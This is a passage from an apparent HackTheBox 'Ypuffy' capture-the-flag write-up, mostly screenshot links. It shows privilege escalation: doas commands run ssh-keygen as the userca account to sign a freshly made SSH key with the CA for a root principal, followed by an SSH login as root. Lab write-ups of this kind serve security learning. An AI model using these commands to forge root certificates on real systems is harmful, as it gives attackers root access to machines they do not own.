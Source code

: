 ![](/images/hackthebox/ypuffy/18.png)
#### Then we need the certificate (`ca`) in `/home/userca/` so we will cd there 
![](/images/hackthebox/ypuffy/19.png)
#### And sign the ssh keys we have just created as root
`doas -u userca /usr/bin/ssh-keygen -s ca -I root -n 3m3rgencyB4ckd00r /tmp/id_rsa`
<br>
<br>
`doas -u userca /usr/bin/ssh-keygen -s ca -I root -n 3m3rgencyB4ckd00r /tmp/id_rsa.pub`
![](/images/hackthebox/ypuffy/20.png)
#### `-s` for certificate , `-I` for identity and `-n` for principal
#### Finally we will ssh as root :
`ssh -i /tmp/id_rsa root@localhost`